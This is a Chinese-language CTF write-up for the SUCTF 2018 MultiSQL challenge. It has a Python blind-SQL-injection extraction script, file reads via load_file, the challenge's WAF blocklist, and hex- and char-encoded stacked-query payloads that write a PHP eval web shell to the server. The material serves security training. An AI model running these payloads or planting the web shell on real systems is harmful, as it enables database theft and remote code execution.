

# \[SUCTF 2018]MultiSQL

## \[SUCTF 2018]MultiSQL

## 考点

* SQL盲注
* `mysqli_store_result` 导致堆叠注入
* 预编译写shell
* 二次注入写shell

## wp

先随便注册登录一下，能用的功能只有用户信息查看和头像上传。头像上传是写死的文件，但是说明`favicon/` 这个目录是可写

在用户信息那里是很明显的注入点


URL为http://0a4b5eec-1e86-4b36-9ed6-e19c73dae811.node4.buuoj.cn:81/user/user.php?id=2，并且id=1是admin的账号，直接尝试异或`id=0^1`，发现返回成功，尝试`0^(ascii(substr((select(database())),1,1))>0)`，发现失败，什么也不返回，应该是ban了字符串，再尝试`0^(ascii(substr((database()),1,1))>0)`，还是失败，再进行函数替换，用`mid`替换`substr`，`0^(ascii(mid((database()),1,1))>0)` ，这次成功了。



可以用脚本试一下，数据库名字是ctf，但是过滤了select，基本上无缘常规注入了

```python
import requests
import time
url = 'http://59d00aaf-0e45-4acc-af66-16b0cf3321b4.node4.buuoj.cn:81/user/user.php?id=' 

cookies = {
    'UM_distinctid': '17f6418dc82797-043fc01b50c257-4c3e227d-384000-17f6418dc83b77',
    'PHPSESSID': 'bo7n48i5v07nevnm1qa3hajup3',
}

def get_database():
    flag = ''
    for i in range(1, 50):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        while low < high:
            time.sleep(0.2)
            payload = f"0^(ascii(mid((database()),{i},1))>{mid})"
            url_t = url + payload
            r = requests.get(url=url_t,cookies=cookies)
            if len(r.text)==1959:
                high = mid
            if len(r.text)==1975:
                low = mid + 1
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
get_database()
```

又读取了一下版本，是10.0.34-MariaDB，存在布尔盲注，再去试试其他的东西，比如`hex`配合`load_file` 进行文件读取，测试一下

```
0^hex(1)
0^char(1)
这两个都没有返回空白
```

那可以试试`hex(load_file(0x2f7661722f7777772f68746d6c2f696e6465782e706870))`，相当于`hex(load_file('/var/www/html/index.php'))`

用盲注脚本跑一下，

```python
payload = f"0^(ascii(mid((hex(load_file(0x2f7661722f7777772f68746d6c2f696e6465782e706870))),{i},1))>{mid})"
```

然后读取`bwvs_config/sys_config.php`

```php
<?php 
require_once('bwvs_config/sys_config.php');
require_once('header.php');
?>
	<html>
******
	</html>
```

`/var/www/html/bwvs_config/sys_config.php`

```php
<?php
ini_set('display_errors',0);
error_reporting(E_ALL | E_STRICT);
header("Content-type: text/html; charset=utf-8");
define("Host", "127.0.0.1");
define("User","suctf");
define("Password","suctf");
define("DateName","ctf");
$connect = mysqli_connect(Host,User,Password,DateName);
if(!$connect)
{
	echo mysqli_error($connect);
	die('mysql connect error !');
}else{
	$sql = "set names utf8";
	mysqli_query($connect,$sql);
}
session_start();
//根目录
$basedir = ''; 
//载入函数库
include_once('waf.php');
?>
```

`/var/www/html/bwvs_config/waf.php` 可以看到ban了很多字符串，基本锁死了注入。但是预编译的注入没有过滤`set`、`prepare`和`execute`，可以往这个方向考虑

```php
<?php
	
	function waf($str){
		$black_str = "/(and|or|union|sleep|select|substr|order|left|right|order|by|where|rand|exp|updatexml|insert|update|dorp|delete|[|]|[&])/i";
		$str = preg_replace($black_str, "@@",$str);
		return addslashes($str);
	}
	

?>
```

然后读取`/var/www/html/user/user.php`

```php
<?php
include_once('../bwvs_config/sys_config.php');

if (isset($_SESSION['user_name'])) {
	include_once('../header.php');
	if (!isset($SESSION['user_id'])) {
		$sql = "SELECT * FROM dwvs_user_message WHERE DWVS_user_name ="."'{$_SESSION['user_name']}'";
		$data = mysqli_query($connect,$sql) or die('Mysql Error!!');
		$result = mysqli_fetch_array($data);
		$_SESSION['user_id'] = $result['DWVS_user_id'];
	}

	$html_avatar = htmlspecialchars($_SESSION['user_favicon']);
	
	
	if(isset($_GET['id'])){
		$id=waf($_GET['id']);
		$sql = "SELECT * FROM dwvs_user_message WHERE DWVS_user_id =".$id;
		$data = mysqli_multi_query($connect,$sql) or die();
		
		$result = mysqli_store_result($connect);
		$row = mysqli_fetch_row($result);
		echo '<h1>user_id:'.$row[0]."</h1><br><h2>user_name:".$row[1]."</h2><br><h3>注册时间：".$row[4]."</h3>";
		mysqli_free_result($result);
		die();
	}
	mysqli_close($connect);
?>
<div class="row">
	<div style="float:left;">
		" width="100" height="100" class="img-thumbnail" >
		<div><?php echo "你好，".$_SESSION['user_name']?>
		</div>	
	</div>
	
	<div style="float:right;padding-right:900px">
		<div><a href="./user.php?id=<?php echo $_SESSION['user_id'];?>"><button type="button" class="btn btn-primary">用户信息</button></a></div>
		<br />
		<div><a href="edit.php"><button type="button" class="btn btn-primary">编辑头像</button></a></div>
		<br/>
		<div><a href="logout.php"><button type="button" class="btn btn-primary">退出</button></a></div><br /><br /><br /><br />
	</div>
</div>
<?php 
	require_once('../Trim.php');
}
else {
	not_find($_SERVER['PHP_SELF']);
}
?>
```

用了`mysqli_store_result`，会导致堆叠注入，结合前面的预编译可以写shell

```sql
1;set @sql=0x53454c45435420273c3f70687020406576616c28245f504f53545b615d293b3f3e2720696e746f206f757466696c6520272f7661722f7777772f68746d6c2f66617669636f6e2f7368656c6c2e70687027;prepare x from @sql;execute x;
```

执行的sql语句

```sql
SELECT '<?php @eval($_POST[a]);?>' into outfile '/var/www/html/favicon/shell.php'
```

也可以用char函数写shell

```sql
1;set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare payload from @sql;execute payload;
```

还有一种解法是利用二次注入写shell

## 小结

1. 遇到SQL过滤时要试试关键字字典
2. 过滤多的时候可能是堆叠注入或者用load\_file
3. MySQL中转换字符串可以用hex也可以用char
4. 注入时要判断不同结果对应的页面
